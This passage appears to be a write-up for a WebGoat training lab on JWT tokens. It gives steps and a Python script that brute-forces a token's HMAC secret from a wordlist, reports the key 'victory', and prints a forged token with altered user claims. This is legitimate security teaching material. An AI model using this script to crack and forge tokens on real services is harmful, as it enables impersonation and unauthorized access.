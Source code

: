 *   Isolate the signature, and reformat it correctly.
*   Use each word of the dictionary as a key, calculate the HMAC of the initial message, convert it to base64, and compare it with the signature.
*   If there is a match, the dictionnary word is the key used (value found : **victory**).
*   Then calculate the new signature with the modified message
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJ
pYXQiOjE1MjQyMTA5MDQsImV4cCI6MTYxODkwNTMwNCwiYXVkIjoid2ViZ29hdC5vcmciLCJzdWIiOiJ
0b21Ad2ViZ29hdC5jb20iLCJ1c2VybmFtZSI6IldlYkdvYXQiLCJFbWFpbCI6InRvbUB3ZWJnb2F0LmN
vbSIsIlJvbGUiOlsiTWFuYWdlciIsIlByb2plY3QgQWRtaW5pc3RyYXRvciJdfQ.dImA6LEwQc1-ZqVP
WWGE01u1jO2a-yfx8lZetbDqiTc
```

```python
import base64  
import hashlib  
import hmac  
  
def jwt_tokens_5():  
     token = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJpYXQiOjE1MjQyMTA5MDQsImV4cCI6MTYxODkwNTMwNCwiYXVkIjoid2ViZ29hdC5vcmciLCJzdWIiOiJ0b21Ad2ViZ29hdC5jb20iLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQuY29tIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.vPe-qQPOt78zK8wrbN1TjNJj3LeX9Qbch6oo23RUJgM'.split('.')  
  
     payload = '{"iss":"WebGoat Token Builder","iat":1524210904,"exp":1618905304,"aud":"webgoat.org","sub":"tom@webgoat.com","username":"WebGoat","Email":"tom@webgoat.com","Role":["Manager","Project Administrator"]}'.encode()  
  
     unsigned_token = (token[0] + '.' + token[1]).encode()  
  
     # signature is base64 URL encoded and padding has been removed, so we must add it  
     signature = (token[2] + '=' * (-len(token[2]) % 4)).encode()  
  
     with open('google-10000-english-master/google-10000-english.txt', 'r') as fd:  
         lines = [line.rstrip('\n').encode() for line in fd]  
  
     def hmac_base64(key, message):  
         return base64.urlsafe_b64encode(bytes.fromhex(hmac.new(key, message, hashlib.sha256).hexdigest()))  
  
     for line in lines:  
         test = hmac_base64(line, unsigned_token)  
  
         if test == signature:  
             print('Key: {}'.format(line.decode()))  
             new_token = (token[0] + '.' + base64.urlsafe_b64encode(payload).decode().rstrip('=')).encode()  
             new_signature = hmac_base64(line, new_token)  
             new_token += ('.' + new_signature.decode().rstrip('=')).encode()  
             print('New token: {}'.format(new_token.decode()))  
             return  
  
jwt_tokens_5()
```
